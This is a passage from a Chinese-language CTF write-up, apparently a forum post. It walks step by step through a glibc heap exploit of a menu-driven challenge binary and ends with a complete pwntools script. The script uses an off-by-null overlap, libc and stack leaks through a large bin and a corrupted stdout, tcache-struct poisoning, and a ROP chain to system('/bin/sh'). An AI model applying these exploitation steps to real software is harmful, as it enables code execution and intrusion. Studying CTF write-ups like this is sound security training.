add(0x418,'aaaa') #idx5
add(0x4f8,'bbbb')
add(0x4f8,'bbbb')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213616-f36778a2-83bb-1.png)  
用 off by null 改inuse，伪装chunk

```plain
edit(5,0x418,'a'*0x410+p64(0x1880))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213629-fb93fe88-83bb-1.png)  
然后直接free

```plain
delete(6)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213642-02e37af6-83bc-1.png)

然后直接申请一定0x408大小的chunk，造成两个指针指向同一个chunk

```plain
add(0x408,'cccc')
add(0x488,'cccc')
add(0x488,'cccc')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213701-0eb46c0a-83bc-1.png)  
然后把这个相同fd的chunk链入large bin，泄露libc

```plain
delete(8)
add(0x498,'dddd')
show(1)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ff0f0-0x20
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213729-1f29b086-83bc-1.png)

```plain
delete(2)
delete(3)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213741-267784da-83bc-1.png)  
然后找个比较进的地址去改fd

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213752-2cd5648c-83bc-1.png)

```plain
pl='a'*0x380+p64(0)+p64(0x411)+p64((heap_base+0x10)^(heap_base>>12))
edit(9,0x400,pl)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213803-3321e43c-83bc-1.png)  
然后利用attack tcache\_struct和IO\_leak泄露栈地址

```plain
sl('')
add(0x408,'aaaa')
pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stdout)
add(0x408,pl)

ru('\n')
stack=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x120
leak('stack ',stack)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213817-3ba1b164-83bc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213825-405fb0f2-83bc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213830-435dbbbe-83bc-1.png)  
再利用一次tcache\_struct attack

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213840-49b2f36c-83bc-1.png)

```plain
pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stack-0x8)
edit(3,0x408,pl)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213850-4f9e67c0-83bc-1.png)  
然后直接再利用

```plain
pop_rdi = libc_base + 0x0000000000028715
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.sym['system']
ret  = libc_base + 0x0000000000026a3e
sl('1')

pl= p64(0)+ p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
add(0x400,pl)
```

在add函数的rbp后面构造rop

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213910-5b6b69c2-83bc-1.png)  
然后正常退出就能getshell

```plain
menu(5)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213924-63fcb3c0-83bc-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

def menu(opt):
    sla('>>',str(opt))

def add(size,data):
    menu(1)
    sla(b"input your name size",str(size))
    sla(b"input your name",data)

def delete(index):
    menu(4)
    sla(b'input index\n',str(index))

def show(index):
    menu(3)
    sla(b'input index\n',str(index))

def edit(index,size,name):
    menu(2)
    sla(b'input index',str(index))
    sla(b'input your name size',str(size))
    sa(b'input your name',name)

ru('and this line will make the game easier\n')

heap_base=int(r(14),16)-0x2a0
leak('heap_base ',heap_base)

add(0x418,p64(0)+p64(0x1880)+p64(heap_base+0x2c0)+p64(heap_base+0x2c0))
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x418,'aaaa')
add(0x418,'aaaa')
add(0x4f8,'bbbb')
add(0x4f8,'bbbb')

edit(5,0x418,'a'*0x410+p64(0x1880))
delete(6)

add(0x408,'cccc')
add(0x488,'cccc')
add(0x488,'cccc')
delete(8)
add(0x498,'dddd')
show(1)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ff0f0-0x20

leak('libc_base ',libc_base)

stdout = libc_base + libc.sym['_IO_2_1_stdout_']
environ = libc_base + libc.sym['_environ']

delete(2)
delete(3)

pl='a'*0x380+p64(0)+p64(0x411)+p64((heap_base+0x10)^(heap_base>>12))
edit(9,0x400,pl)
sl('')
add(0x408,'aaaa')
pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stdout)
add(0x408,pl)

pl=p64(0xfbad1800) + p64(0)*3 + p64(environ) + p64(environ+8)*4
add(0x408,pl)

ru('\n')
stack=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x120
leak('stack ',stack)

pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stack-0x8)
edit(3,0x408,pl)

pop_rdi = libc_base + 0x0000000000028715
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.sym['system']
ret  = libc_base + 0x0000000000026a3e
sl('1')

pl= p64(0)+ p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
add(0x400,pl)

menu(5)

itr()
```

pwn1.zip (0.863 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231115214142-b638ffa4-83bc-1.zip)

pwn2.zip (0.758 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231115214400-07ebb120-83bd-1.zip)

pwn3.zip (0.907 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231115214402-096a04ac-83bd-1.zip)
